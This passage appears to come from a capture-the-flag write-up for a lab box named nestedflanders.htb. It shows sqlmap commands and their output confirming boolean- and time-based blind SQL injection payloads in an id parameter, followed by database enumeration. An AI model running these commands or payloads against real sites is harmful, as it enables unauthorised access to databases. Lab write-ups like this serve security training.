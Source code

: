 Scripting this is nice, but I can use `sqlmap` to find this and exploit it
more quickly (though not that much more quickly):

    
    
    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch
            ___
           __H__
     ___ ___[.]_____ ___ ___  {1.3.4#stable}
    |_ -| . ["]     | .'| . |
    |___|_  [)]_|_|_|__,|  _|
          |_|V...       |_|   http://sqlmap.org
    
    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
    [*] starting @ 08:20:35 /2019-06-22/
    
    [08:20:35] [INFO] resuming back-end DBMS 'mysql' 
    [08:20:35] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: id=587' AND 4662=4662-- bcKm
    
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind
        Payload: id=587' AND SLEEP(5)-- BHIV
    ---
    [08:20:35] [INFO] the back-end DBMS is MySQL
    web application technology: Nginx 1.10.3
    back-end DBMS: MySQL 5 (MariaDB fork)
    [08:20:35] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.nestedflanders.htb'
    
    [*] ending @ 08:20:35 /2019-06-22/
    

#### Enumerate DB

The thing about blind SQLI is that they are slow. I don’t want to just do
`--dump` or `--dump-all`, as it will take forever. I will start with some
basic enumeration. List the databases:

    
    
    root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch --dbs
    ...[snip]...
    available databases [2]:
    [*] information_schema
    [*] neddy
    